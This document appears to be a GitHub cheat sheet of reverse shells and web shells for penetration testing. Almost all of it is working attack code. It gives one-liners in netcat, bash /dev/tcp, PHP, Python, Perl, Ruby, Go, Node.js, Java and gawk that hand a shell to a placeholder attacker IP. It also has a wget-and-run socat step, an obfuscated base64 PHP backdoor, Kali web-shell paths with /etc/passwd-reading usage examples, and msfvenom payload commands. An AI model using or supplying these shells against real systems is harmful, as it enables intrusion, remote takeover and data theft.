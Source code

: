 # Various Reverse Shells
If you need the binaries you can install them from https://github.com/andrew-d/static-binaries 

## Setup a listner

```
nc -nvlp 4444
```

## Netcat Reverse Shell

```
nc -e /bin/sh <ATTACKING-IP> 4444
```
```
/bin/sh | nc <ATTACKING-IP> 4444
```
```
rm -f /tmp/p; mknod /tmp/p p && nc <ATTACKING-IP> 4444 0/tmp/p
```
### NC OPENBSD
```
mkfifo /tmp/lol;nc <ATTACKING-IP> 4444 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol
```
## Telnet Reverse Shell
```
rm -f /tmp/p; mknod /tmp/p p && telnet <ATTACKING-IP> 4444 0/tmp/p
```
```
telnet <ATTACKING-IP> 80 | /bin/bash | telnet <ATTACKING-IP> 4444
```

## Bash Reverse Shell

```
exec /bin/bash 0&0 2>&0
```
```
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196
```
```
exec 5<>/dev/tcp/ATTACKING-IP/80
cat <&5 | while read line; do $line 2>&5 >&5; done
```
Or
```
while read line 0<&5; do $line 2>&5 >&5; done
```
```
bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
```

## PHP Reverse Shell

Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6
```
php -r '$sock=fsockopen("ATTACKING-IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"ATTACKING IP"/4444 0>&1'");?>
```
Base64 encoded
```
<?=$x=explode('~',base64_decode(substr(getallheaders()['x'],1)));@$x[0]($x[1]);
```

## socat Reverse Shell
:warning: You must use socat to listen
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```
```
socat tcp:ip:port exec:'bash -i' ,pty,stderr,setsid,sigint,sane &
```
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
NEED TO DOWNLOAD SOCAT?
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

## Perl Reverse Shell
```
perl -e 'use Socket;$i="ATTACKING-IP";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Ruby Reverse Shell

```
ruby -rsocket -e'f=TCPSocket.open("<ATTACKING-IP>",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
## Python Reverse Shell

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKING-IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Golang Reverse Shell

```
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","<ATTACKING-IP>:4444");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;http://cmd.Run();}'>/tmp/sh.go&&go run /tmp/sh.go
```

## Node.js Revese Shell
```
require('child_process').exec('bash -i >& /dev/tcp/<ATTACKING-IP>/4444 0>&1');
```
## Java Reverse Shell
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<ATTACKING-IP>/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
## Gawk Reverse Shell

```
gawk 'BEGIN {P=4444;S="> ";H="<ATTACKING-IP>";V="/inet/tcp/0/"H"/"P;while(1){do{printf S|&V;V|&getline c;if(c){while((c|&getline)>0)print $0|&V;close(c)}}while(c!="exit")close(V)}}'
```
```
#!/usr/bin/gawk -f

BEGIN {
        Port    =       8080
        Prompt  =       "bkd> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
                                        print $0 |& Service
                                close(cmd)
                        }
                } while (cmd != "exit")
                close(Service)
        }
}
```

# Kali Web Shells
The following shells exist within Kali Linux, under /usr/share/webshells/ these are only useful if you are able to upload, inject or transfer the shell to the machine.

## PHP
`/usr/share/webshells/php/php-reverse-shell.php`

`/usr/share/webshells/php/php-findsock-shell.php`

`/usr/share/webshells/php/findsock.c` - You will need to run `gcc -o findsock findsock.c` to compile it and execute with netcat not a browser `nc -v <target-ip> 4444`

`/usr/share/webshells/php/simple-backdoor.php` PHP backdoor, usefull for CMD execution if upload / code injection is possible, usage: ```http://target.com/simple-
backdoor.php?cmd=cat+/etc/passwd```

`/usr/share/webshells/php/php-backdoor.php` - Larger PHP shell, with a text input box for command execution.

> The last two shells above are not reverse shells, however they can be useful for executing a reverse shell.

### pentest monkey shell
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

## Perl
`/usr/share/webshells/perl/perl-reverse-shell.pl`

`/usr/share/webshells/perl/perlcmd.cgi` - Usage - `http://target.com/perlcmd.cgi?cat /etc/passwd`


## Cold Fusion(CFM)
`/usr/share/webshells/cfm/cfexec.cfm`

## ASP/ASPX
`/usr/share/webshells/asp/`

`/usr/share/webshells/aspx/`

## JSP
`/usr/share/webshells/jsp/jsp-reverse.jsp`


# Windows reverse shell
## meterpreter

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```
## non meterpreter
```
#X86
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe

#X64
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```